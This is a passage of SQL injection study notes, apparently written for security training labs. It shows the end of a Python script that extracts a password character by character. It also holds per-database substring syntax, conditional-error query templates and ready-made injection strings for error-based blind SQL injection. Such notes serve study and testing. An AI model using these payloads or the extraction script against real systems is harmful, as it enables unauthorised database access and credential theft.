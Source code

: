 ```python

        if "Welcome back!" in response.text: 
            password += x
            print(f"Found character at position {position}: {x}")
            break

print(f"Password: {password}")


```
You can extract part of a string, from a specified offset with a specified length. Note that the offset index is 1-based. Each of the following expressions will return the string ba.

| Database   | Syntax                      |
| ---------- | --------------------------- |
| Oracle     | `SUBSTR('foobar', 4, 2)`    |
| Microsoft  | `SUBSTRING('foobar', 4, 2)` |
| PostgreSQL | `SUBSTRING('foobar', 4, 2)` |
| MySQL      | `SUBSTRING('foobar', 4, 2)` |


## Error-based SQL injection

Use error messages to extract or infer sensitive data from the database

### Exploit blind SQL injection by triggering conditional erroes

| Database   | Query                                                                                   |
| ---------- | --------------------------------------------------------------------------------------- |
| Oracle     | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN TO_CHAR(1/0) ELSE NULL END FROM dual`      |
| Microsoft  | `SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/0 ELSE NULL END`                         |
| PostgreSQL | `1 = (SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN 1/(SELECT 0) ELSE NULL END)`          |
| MySQL      | `SELECT IF(YOUR-CONDITION-HERE,(SELECT table_name FROM information_schema.tables),'a')` |



```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```
Use `CASE` keyword to test condition:

- With the first input, the CASE expression FALSE then go to ELSE evaluates to 'a', which does not cause any error.
- With the second input, it TRUE then go to TRUE evaluates to 1/0, which causes a divide-by-zero error.

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.
